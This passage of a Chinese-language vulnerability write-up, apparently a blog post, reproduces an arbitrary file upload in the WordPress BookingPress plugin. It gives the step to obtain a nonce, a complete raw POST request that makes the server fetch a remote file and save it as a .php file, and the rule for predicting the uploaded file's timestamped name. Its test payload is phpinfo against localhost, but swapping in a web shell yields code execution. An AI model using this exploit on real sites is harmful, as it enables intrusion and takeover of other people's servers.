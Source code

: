 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYezJ1Ye5zH71BowZ25Z8ZtgicQIvAQjqKsjmmrqIVNsFAIpzs3SBAKfYAA/640?wx_fmt=png&from=appmsg "")  
  
**然后访问一下 /wp-admin/admin-ajax.php?action=bookingpress_generate_spam_captcha 获取到bqa_wp_nonce**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYez9tNysVrNV8REoWTLcx8PhZk5mzoBibPxzTQxHVlJTwogicsqSguloq0A/640?wx_fmt=png&from=appmsg "")  
  
**之后准备一个文件 111.txt 内容为 <?php phpinfo();?> 然后放在云服务器或者VPS上，之后使用Payload即可写入文件:**  
```
POST /wp-admin/admin-ajax.php?action=bookingpress_save_lite_wizard_settings HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 193
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_5c016e8f0f95f039102cbe8366c5c7f3=mstir%7C1729421530%7CZLCGG775Ujn2fNKdlT7bmA8NdYmBpddc0jDOmnLZvxu%7Cdca4fde6daf6c85dcfc3e29c1dbf284d735b26fb9d0255f5c76cc5ea15e41496; wp_lang=zh_CN; wordpress_test_cookie=WP%20Cookie%20check; PHPSESSID=jp5re76tlu2agddmtjhqnh5kib; wordpress_logged_in_5c016e8f0f95f039102cbe8366c5c7f3=mstir%7C1729421530%7CZLCGG775Ujn2fNKdlT7bmA8NdYmBpddc0jDOmnLZvxu%7C3c94c9917c78541d9802319afb09e3fc20935542fcd237801f5328eab72f603d; wp-settings-2=mfold%3Do; wp-settings-time-2=1729248730
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/wp-admin/admin-ajax.php?action=bookingpress_save_lite_wizard_settings
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

_wpnonce=你的bqa_wp_nonce&wizard_data[company_fields_data][logo_img]=aaa.php&wizard_data[company_fields_data][logo]=http://website/111.txt
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYezKH3Nef69npnbLjiazfECGlqM9LBOHkyIKzWUPmAjgVWUxXLfoXD7Wdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYezaD8vZ1TgamUibR6CuCkDtjnAepQPh890ibZ8EysZ8HspDJPicpT1c5v5g/640?wx_fmt=png&from=appmsg "")  
**但是我实际时间是19:34:18 这里要注意 分秒以服务器Date为准，小时以北京时间为准+8小时**  
  
**PS:注意这里因为时区问题，使用了GMT偏移量，所以我们需要以我们上传时间为准+8小时再转换时间戳.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYez5vumriczLrSMHm38ldcCaL5u3ibkzFWqrUAR2FNV7jWkgibL3Nq3e15pw/640?wx_fmt=png&from=appmsg "")  
  
**根据命名规则直接访问 /wp-content/uploads/bookingpress/1729250804_aaa.php 即可看到写入的PHP文件**  
  